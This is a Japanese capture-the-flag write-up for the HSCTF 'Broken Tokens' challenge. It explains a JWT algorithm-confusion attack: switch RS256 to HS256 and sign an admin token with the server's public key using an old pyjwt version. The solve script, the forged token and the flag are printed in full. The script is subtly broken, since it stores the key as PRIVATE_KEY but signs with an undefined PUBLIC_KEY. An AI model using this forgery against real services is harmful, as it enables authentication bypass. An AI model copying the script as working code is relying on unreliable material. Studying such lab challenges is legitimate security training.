 # Broken Tokens

100pt (335 Solves)

```txt
I made a login page, is it really secure? https://broken-tokens.web.hsctf.com/

Note: If you receive an "Internal Server Error" (HTTP Status Code 500), that means that your cookie is incorrect.

Author: hmmm
```

## 添付

- [main.py](./attachments/main.py)

## 概要

![login](../img/Broken_Tokens.png)  

- ログインページ: `/`  
適当なID、Passでログインすると`Logged in as guest`と表示される。  
  - publickey.pem: `/publickey.pem`  
  publickkeyが書いてある。これを使えってことだろう。

ログインしたら以下のようなCookieがセットされ、変に弄ったら`InternalServerError`になる。  

```txt
eyJ0eXAiOiJKV1QiLCJhbGciOiJSUzI1NiJ9.eyJhdXRoIjoiZ3Vlc3QifQ.e3UX6vGuTGHWouov4s5HuKn6B5zbe0ZjxwHCB_OQlX_TcntJuj89x0RDi8gQi88TMoXSFN-qnFUQxillB_nD5ErrVZKL8HI5Ah_iQBX1xfu097H2xT3LAhDEceq4HDEQY-iC4TVSxMGM0AS_ItsVLBIrxk8tapcANvCW_KnO3mEFwfQOD64YHtapSZJ-kKjdN19lgdI_g-2nNI83P6TlgLtZ8vo1BB1zt_8b4UECSiPb67YCsrCYIIsABq5UyxSwgUpZsM6oxW0k1c4NbaUTnUWURG2qWDVw56svRQETU3YjO59AMj67n9r9Y9NJ9FBlpHQ60Ck-mfL5JcmFE9sgVw
```

`.`区切りで最初2つをbase64デコードすると`{"typ":"JWT","alg":"RS256"}`、`{"auth":"guest"}`。  
脳死で`{"auth":"admin"}`に書き換えたが署名があるからか、InternalServerErrorになる。

## 解

[main.py](./attachments/main.py)を見ながら調べてたら、  
攻撃者が署名したトークンで認証を通過できるという記事を見つけた。  

アルゴリズムを`RS256`から`HS256`に書き換えればできるっぽい。公開鍵を手元に保存しておく。

`pip install pyjwt==0.4.3`で古いjwtパッケージをインストールして、以下を実行

```python
import jwt

with open("publickey.pem", "r") as f:
        PRIVATE_KEY = f.read()

print (jwt.encode({"auth": "admin"}, PUBLIC_KEY, algorithm="HS256"))
```

```shell
$ python3 solve.py
b'eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJhdXRoIjoiYWRtaW4ifQ.MfoiS9XkQHMOw2Y6uQJrw0gM2NUfGYM-1Sz-SzKvad4'
```

`eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJhdXRoIjoiYWRtaW4ifQ.MfoiS9XkQHMOw2Y6uQJrw0gM2NUfGYM-1Sz-SzKvad4`をcookieにセットし、ページを更新すればflag。

```txt
flag{1n53cur3_tok3n5_5474212}
```

